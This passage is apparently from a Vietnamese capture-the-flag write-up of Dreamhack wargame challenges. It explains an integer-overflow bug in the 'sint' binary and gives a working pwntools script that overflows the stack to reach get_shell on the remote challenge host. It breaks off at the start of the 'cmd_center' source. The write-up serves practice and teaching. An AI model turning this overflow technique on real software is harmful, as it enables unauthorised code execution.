 ```c 
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```
- Bài cho đọc vào số nguyên `size`, nếu `size > 256` hoặc `size < 0` thì thoát chương trình, nếu ngược lại thì nhập vào `buf` với kích thước `size - 1`
- Bài này có lỗi interger overflow vì khi ta nhập số 0 vào `size` thì khi đọc `size - 1` là `-1` thì 0xffffffff được nhận dạng là số nguyên không dấu khi đó ta có thể nhập số lượng ký tự không giới hạn
![image](https://hackmd.io/_uploads/HyQgRMMKA.png)
- Stack không được bật cho phép ta overwrite địa chỉ trả về thành hàm get_shell có trong chương trình
![image](https://hackmd.io/_uploads/rJhlkQzK0.png)

## Script
```python=
#!/usr/bin/python3

from pwn import * 


exe = ELF('./sint', checksec = False)

#p = process(exe.path)
p = remote('host1.dreamhack.games', 13235)

payload = b'A'*260
payload += p32(exe.sym['get_shell'])

p.recvuntil(b'Size: ')
p.sendline(b'0')
p.recvuntil(b'Data: ')
p.sendline(payload)

p.interactive()

```
# [cmd_center](https://dreamhack.io/wargame/challenges/117)
## Source code
```c 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
}

int main()
{

        char cmd_ip[256] = "ifconfig";
        int dummy;
```
